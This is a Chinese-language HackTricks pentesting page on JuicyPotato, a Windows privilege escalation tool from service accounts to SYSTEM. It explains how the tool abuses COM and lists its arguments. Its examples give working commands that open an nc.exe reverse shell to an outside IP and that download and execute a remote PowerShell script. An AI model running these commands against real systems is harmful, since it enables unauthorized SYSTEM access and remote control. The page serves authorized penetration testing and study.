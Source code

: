 # JuicyPotato

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> - <a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？ 想要在HackTricks中看到您的**公司广告**吗？ 或者您想要访问**PEASS的最新版本或下载HackTricks的PDF**吗？ 请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFTs收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) **Discord群**](https://discord.gg/hRep4RUj7f) 或**电报群**](https://t.me/peass) 或在**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**上关注**我。
* 通过向[hacktricks repo](https://github.com/carlospolop/hacktricks) **和** [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧**。

</details>

{% hint style="warning" %}
**JuicyPotato在**Windows Server 2019和Windows 10版本1809及更高版本上**不起作用**。 但是，可以使用[**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**，**[**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**，**[**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)来**利用相同的权限并获得`NT AUTHORITY\SYSTEM`**级别访问。 _**查看：**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato（滥用黄金特权）<a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_一个经过糖化的版本_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_，带有一点果汁，即**另一个本地权限提升工具，从Windows服务帐户提升到NT AUTHORITY\SYSTEM**_

#### 您可以从[https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)下载juicypotato

### 摘要<a href="#summary" id="summary"></a>

**[从juicy-potato Readme](https://github.com/ohpe/juicy-potato/blob/master/README.md)：**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)及其[变体](https://github.com/decoder-it/lonelypotato)利用基于[`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx)的特权升级链[服务](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126)在`127.0.0.1:6666`上具有MiTM侦听器，并且当您拥有`SeImpersonate`或`SeAssignPrimaryToken`权限时。 在Windows构建审查期间，我们发现了一个设置，其中`BITS`被故意禁用，端口`6666`被占用。

我们决定武器化[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)：**欢迎Juicy Potato**。

> 有关理论，请参阅[Rotten Potato - 从服务帐户提升到SYSTEM的特权提升](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)，并跟随链接和引用链。

我们发现，除了`BITS`之外，还有一些COM服务器可以滥用。 它们只需要：

1. 可以由当前用户（通常是具有模拟权限的“服务用户”）实例化
2. 实现`IMarshal`接口
3. 作为提升的用户（SYSTEM，管理员，...）运行

经过一些测试，我们获得并测试了在几个Windows版本上的[有趣的CLSID列表](http://ohpe.it/juicy-potato/CLSID/)。

### 详细信息<a href="#juicy-details" id="juicy-details"></a>

JuicyPotato允许您：

* **目标CLSID** _选择任何您想要的CLSID。_ [_在此处_](http://ohpe.it/juicy-potato/CLSID/) _您可以找到按操作系统组织的列表。_
* **COM侦听端口** _定义您喜欢的COM侦听端口（而不是已编组的硬编码6666）_
* **COM侦听IP地址** _将服务器绑定到任何IP_
* **进程创建模式** _根据模拟用户的权限，您可以选择：_
* `CreateProcessWithToken`（需要`SeImpersonate`）
* `CreateProcessAsUser`（需要`SeAssignPrimaryToken`）
* `both`
* **要启动的进程** _如果利用成功，启动可执行文件或脚本_
* **进程参数** _自定义启动进程参数_
* **RPC服务器地址** _用于隐蔽的方法，您可以对外部RPC服务器进行身份验证_
* **RPC服务器端口** _如果要对外部服务器进行身份验证且防火墙阻止端口`135`，则很有用..._
* **测试模式** _主要用于测试目的，即测试CLSID。 它创建DCOM并打印令牌的用户。 请参见_ [_这里进行测试_](http://ohpe.it/juicy-potato/Test/)

### 用法<a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 总结 <a href="#final-thoughts" id="final-thoughts"></a>

**[来自 juicy-potato 说明文档](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts):**

如果用户具有 `SeImpersonate` 或 `SeAssignPrimaryToken` 特权，则您将成为 **SYSTEM**。

几乎不可能防止所有这些 COM 服务器的滥用。您可以考虑通过 `DCOMCNFG` 修改这些对象的权限，但祝你好运，这将是具有挑战性的。

实际解决方案是保护在 `* SERVICE` 帐户下运行的敏感帐户和应用程序。停止 `DCOM` 肯定会阻止此漏洞利用，但可能会对底层操作系统产生严重影响。

来源: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 示例

注意: 访问 [此页面](https://ohpe.it/juicy-potato/CLSID/) 查看要尝试的 CLSID 列表。

### 获取 nc.exe 反向 shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell 反向 Shell
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 启动新的CMD（如果您有RDP访问权限）

![](<../../.gitbook/assets/image (37).png>)

## CLSID问题

通常情况下，JuicyPotato使用的默认CLSID**无法正常工作**，导致利用失败。通常需要多次尝试才能找到一个**有效的CLSID**。要获取针对特定操作系统尝试的CLSID列表，您应该访问此页面：

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **检查CLSID**

首先，您需要一些除了juicypotato.exe之外的可执行文件。

下载[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)并将其加载到您的PS会话中，然后下载并执行[GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)。该脚本将创建一个要测试的可能CLSID列表。

然后下载[test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(更改路径到CLSID列表和juicypotato可执行文件)并执行它。它将开始尝试每个CLSID，**当端口号更改时，表示CLSID有效**。

**使用参数 -c 检查**有效的CLSID

## 参考资料
* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？ 想要在HackTricks中看到您的**公司广告**？ 或者您想要访问**PEASS的最新版本或下载HackTricks的PDF**？ 请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 发现我们的独家[NFTs收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) **Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**上关注**我。
* **通过向** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧**。

</details>
